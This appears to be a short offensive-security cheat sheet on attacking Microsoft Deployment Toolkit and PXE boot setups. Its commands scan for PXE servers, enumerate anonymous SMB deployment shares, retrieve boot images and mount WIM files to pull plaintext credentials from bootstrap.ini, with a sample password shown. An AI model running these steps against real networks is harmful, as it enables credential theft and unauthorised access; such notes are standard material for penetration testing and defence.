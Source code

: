 MDT deployments often contain credentials and sensitive information that can be leveraged for initial access.

### Identifying MDT Deployments

```bash
# Scan for PXE boot servers
nmap -p 67,68,69,4011 -sU 10.10.10.0/24

# Look for MDT services
nmap -p 80,443 --script=http-title 10.10.10.0/24 | grep -i "deployment"

# Checking for open deployment shares
crackmapexec smb 10.10.10.100 -u '' -p '' --shares | grep -i "deployment"
```

### PXE Boot Image Retrieval

```bash
# Using PowerPXE to grab bootloader
.\PowerPXE.ps1
Get-PXEBootImage -ServerIP 10.10.10.100 -Architecture x64

# Extracting BCD file
bcdedit /store BCD /enum all

# Using DHCP to discover PXE
python3 PXEThief.py -m discover -i eth0
```

### Extracting Credentials from MDT Files

```bash
# Bootstrap.ini often contains credentials
cat .\Bootstrap.ini

# Sample content:
[Settings]
Priority=Default

[Default]
DeployRoot=\\MDT-SERVER\DeploymentShare$
UserID=MDT_User
UserDomain=domain.local
UserPassword=Password123!
```

### Mounting and Analyzing WIM Files

```bash
# Mount a WIM file on Linux
mkdir /mnt/wim
wimlib-imagex mount boot.wim 1 /mnt/wim

# Extract bootstrap.ini
cp /mnt/wim/Deploy/Scripts/bootstrap.ini ./

# Extract customsettings.ini
cp /mnt/wim/Deploy/Scripts/customsettings.ini ./

# Unmount
wimlib-imagex unmount /mnt/wim
```
